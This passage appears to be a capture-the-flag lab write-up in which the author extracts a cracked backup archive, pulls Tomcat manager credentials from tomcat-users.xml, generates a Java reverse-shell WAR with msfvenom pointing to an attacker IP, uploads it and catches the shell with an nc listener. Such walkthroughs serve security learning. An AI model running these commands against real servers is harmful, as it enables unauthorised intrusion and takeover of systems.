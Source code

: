 Now that we recovered the password, we can now extract the archive.

```bash
┌──(kali㉿kali)-[~]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] catalina.policy password:
  inflating: catalina.policy
  inflating: context.xml
  inflating: catalina.properties
  inflating: jaspic-providers.xml
  inflating: jaspic-providers.xsd
  inflating: logging.properties
  inflating: server.xml
  inflating: tomcat-users.xml
  inflating: tomcat-users.xsd
  inflating: web.xml
  ```
  
Now we can examine `tomcat-users.xml` to try to enumerate `tomcat` credentials.
  
```bash
┌──(kali㉿kali)-[~]
└─$ cat tomcat-users.xml | grep username
  you must define such a user - the username and password are arbitrary.
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
  <user username="manager" password="melehifokivai" roles="manager-gui"/>
  <user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

Awesome! Now we can log into `tomcat`. From here, we can try to upload a shell to gain a foothold.

## User Flag

Using `msfvenom`, we can create a reverse-shell payload to upload to `tomcat`.

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/shell_reverse_tcp LPORT=9001 LHOST=192.168.1.181 -f war -o shell.war
Payload size: 13321 bytes
Final size of war file: 13321 bytes
Saved as: shell.war
```

And after setting up our listener and uploading the payload, we have our reverse shell!

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.181] from (UNKNOWN) [192.168.1.96] 39438
whoami
tomcat
```

